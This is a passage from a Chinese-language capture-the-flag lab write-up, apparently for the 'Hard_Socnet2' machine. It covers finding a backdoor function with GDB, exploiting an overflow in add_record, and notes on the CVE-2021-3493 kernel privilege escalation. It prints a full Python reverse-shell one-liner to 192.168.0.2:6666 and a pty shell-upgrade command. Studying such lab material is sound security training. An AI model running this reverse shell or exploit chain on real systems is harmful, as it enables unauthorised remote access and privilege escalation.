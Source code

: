       应该可以直接查看 backdoor 函数，然后打断点，就不用一步一步调试了。
      ![image-20240127170159907](Hard_Socnet2/image-20240127170159907.png)
      到这，知道了 backdoor 函数的行为。

19. 退出调试模式，在 Shell 中执行：
     `cat payload - | ./add_record`。`-` 表示 stdin，也就是标准输入，搭配管道使用。这里就是将所有的内容通过管道传给程序。
      ![image-20240127170802524](Hard_Socnet2/image-20240127170802524.png)
     执行 `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.2", 6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'` 以获得更友好的 Shell。

## 2. 总结

1. CVE-2021-3493 比较通用的内核提权漏洞
2. 代码分析与文档查看
3. Shell 增加交互性：`python -c "import pty; pty.spawn('/bin/bash')"`
4. [后半段使用 GDB 挖掘溢出漏洞](#1.5 提权 - root - 溢出漏洞)。一整段都是新知识，PWN 要学。
    1. GDB 和 PEDA
    2. GDB 调试的使用
    3. Python 的 `struct` 包的使用。
    4. 挖掘的流程
